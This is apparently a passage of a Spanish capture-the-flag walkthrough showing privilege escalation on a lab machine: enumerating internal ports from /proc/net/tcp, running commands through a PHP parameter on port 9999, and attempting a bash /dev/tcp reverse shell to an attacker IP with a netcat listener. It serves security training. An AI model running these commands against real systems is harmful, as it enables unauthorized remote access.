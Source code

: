 Hemo migrado al usuario **mario** !

En su directorio **/home** encontramos una nota:

```shell
cat ServerDeS4vitar.txt 
------------------------------------------------------
Acordarme de usar la sintaxis index.php?cmds4vi=id para ejecutar comandos en el server de S4vitar
```

Es posible que haya un servicio internos que no hayamos podido identificar desde fuera con **nmap**.

Intentamos ver los servicios internos con **lsof**, **netstat**, **ss** pero ninguno está instalado, así que miramos el **/proc/net/tcp** y pasamos los puertos a decimal para ver cuales están abiertos:

```shell
for port in $(cat /proc/net/tcp | awk '{print $2}' | awk '{print $2}' FS=":" | sort -u); do echo "[+] PORT $port -> $((0x$port))"; done
----------------------------------------------------------
[+] PORT 0050 -> 80
[+] PORT 270F -> 9999
[+] PORT A36A -> 41834
```

Vemos un puerto 9999 y 41834.
Si le hacemos un curl al **9999** vemos que nos contesta:

```shell
curl http://localhost:9999; echo
-------------------------------------------
No se ha pasado ningun comando.
```

Parece que le podemos pasar comandos, y si recordamos la nota, nos daba la pista de cual era el parámetro -> **cmds4vi**:

```shell
curl http://localhost:9999/index.php?cmds4vi=id; echo
-------------------------------------------------------
uid=1001(s4vitar) gid=1001(s4vitar) groups=1001(s4vitar),100(users)
```

Nos contesta correctamente y vemos que estamos ejecutando los comandos como el usuario **s4vitar**.
Tratamos de enviarnos una **reverse shell**:

```shell
nc -nlvp 4433
```

```shell
curl http://localhost:9999/index.php?cmds4vi=bash -i >& /dev/tcp/172.17.0.1/4433 0>&1
```

![Pasted image 20240506204756](https://github.com/albertomarcostic/HackTheHeaven/assets/131155486/b9fe49ba-ad6c-4ebf-8886-d070f73854ca)

Vemos que nos llega la conexión pero inmediatamente se cierra y no nos podemos conectar correctamente.
Descargamos **chisel** en la máquina atacante y en la máquina víctima, para crear un túnel, y poder acceder a la web del puerto **9999** de la máquina víctima en la máquina atacante.
